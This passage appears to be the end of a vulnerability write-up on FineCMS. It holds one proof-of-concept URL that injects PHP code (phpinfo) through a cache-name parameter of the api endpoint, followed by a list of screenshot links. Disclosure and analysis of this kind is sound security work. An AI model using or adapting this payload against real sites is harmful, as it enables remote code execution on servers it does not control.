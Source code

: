 payload:

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=cache%20name=MEMBER.1'];phpinfo();$a=['1
```

![image.png-68kB][19]


  [1]: http://static.zybuluo.com/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: http://static.zybuluo.com/LoRexxar/p6rzdl3hn4qma2xfdnnjcvmf/image.png
  [3]: http://static.zybuluo.com/LoRexxar/k3pahve44l13aaq0l3tv804k/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tdhgnnhca43s7luif2z0qt19/image.png
  [5]: http://static.zybuluo.com/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [6]: http://static.zybuluo.com/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [7]: http://static.zybuluo.com/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png
  [8]: http://static.zybuluo.com/LoRexxar/9uh4ll2w53s9ftnhdfaf5jv4/image.png
  [9]: http://static.zybuluo.com/LoRexxar/dwwtyb3okbfl0ohedg3q1z4h/image.png
  [10]: http://static.zybuluo.com/LoRexxar/3pt5zq0ezl29las6zgjmh7r5/image.png
  [11]: http://static.zybuluo.com/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [12]: http://static.zybuluo.com/LoRexxar/n7dbtbupmw8ukwwenp4lipjj/image.png
  [13]: http://static.zybuluo.com/LoRexxar/i8d3nn39drj9to4x24yzed3q/image.png
  [14]: http://static.zybuluo.com/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [15]: http://static.zybuluo.com/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [16]: http://static.zybuluo.com/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [17]: http://static.zybuluo.com/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [18]: http://static.zybuluo.com/LoRexxar/y5pf6ackfl3e6hgodigz9icb/image.png
  [19]: http://static.zybuluo.com/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png